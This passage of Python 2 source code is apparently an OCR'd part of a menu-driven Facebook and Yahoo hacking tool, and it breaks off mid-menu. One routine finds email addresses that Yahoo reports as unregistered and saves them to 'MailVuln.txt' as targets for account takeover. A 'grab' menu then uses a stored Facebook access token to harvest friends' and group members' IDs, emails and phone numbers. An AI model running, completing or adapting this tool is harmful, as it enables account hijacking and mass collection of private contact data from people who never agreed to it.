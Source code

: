             jok = re.compile('"messages.ERROR_INVALID_USERNAME">.*')
            try:
                pek = jok.search(klik).group()
            except:
                print '\x1b[1;91m ' + mail
                continue

            if '"messages.ERROR_INVALID_USERNAME">' in pek:
                save.write(mail + '\n')
                print '\x1b[1;92m ' + mail
            else:
                print '\x1b[1;91m ' + mail

    print '\n\x1b[1;91m[+] \x1b[1;97mFinish'
    print '\x1b[1;91m[+] \x1b[1;97mSaved \x1b[1;91m:\x1b[1;97m MailVuln.txt'
    save.close()
    raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
    menu_yahoo()


def grab():
    os.system('clear')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\x1b[1;91m[!] Token not found'
        os.system('rm -rf login.txt')
        time.sleep(1)
        login()

    os.system('clear')
    print logo
    print 52 * '\x1b[1;97m\xe2\x95\x90'
    print '║-> \x1b[1;37;40m1. Get ID From Friends'
    print '║-> \x1b[1;37;40m2. Get Friends ID From Friends'
    print '║-> \x1b[1;37;40m3. Get ID From GRUP'
    print '║-> \x1b[1;37;40m4. Get Friends Email'
    print '║-> \x1b[1;37;40m5. Get Friends Email From Friends'
    print '║-> \x1b[1;37;40m6. Get Phone From Friends'
    print '║-> \x1b[1;37;40m7. Get Friend\'s Phone From Friends'
    print '║-> \x1b[1;31;40m0. Back'
    print '\x1b[1;37;40m║'
    grab_pilih()


def grab_pilih():
    cuih = raw_input('╚═\x1b[1;91m▶\x1b[1;97m ')
    if cuih == '':
        print '\x1b[1;91m[!] Can\'t empty'
        grab_pilih()
    else:
        if cuih == '1':
            id_friends()
        else:
            if cuih == '2':
                idfrom_friends()
            else:
                if cuih == '3':
                    id_member_grup()
                else:
                    if cuih == '4':
                        email()
                    else:
                        if cuih == '5':
                            emailfrom_friends()
                        else:
                            if cuih == '6':